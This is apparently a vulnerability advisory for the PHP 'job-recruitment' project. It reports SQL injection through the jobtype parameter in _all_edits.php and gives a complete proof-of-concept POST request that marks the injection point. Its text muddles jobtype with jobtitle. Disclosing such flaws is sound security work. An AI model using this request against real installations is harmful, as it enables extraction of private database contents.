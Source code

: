 # job-recruitment-in-php has sql injection vulnerability in jobtype parameter

## supplier 
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
jobtype parameter

## describe

The system there is sql inection vulnerability Via jobtype parameter .The parameters that can be controlled are as follows:  jobtitle parameter . A attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the parameter value of   $jobtype = $_POST['jobtype']  is obtained in edit_jobpost action , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![image-20241226012118274](https://github.com/user-attachments/assets/423a6dec-37d3-4fec-b7f2-709f81f72b66)

## POC

```
POST /_parse/_all_edits.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/_parse/_all_edits.php
Cookie: PHPSESSID=etso55q58ionvmrvpetmaf8urt
Upgrade-Insecure-Requests: 1
Priority: u=0, i

jid=1&degree=2&jobtitle=1&action=edit_jobpost&jobtype=1*&deadline=1
```

**Result**

![image-20241226012312634](https://github.com/user-attachments/assets/f3d005a0-cab4-468b-a629-7b637bfc3431)
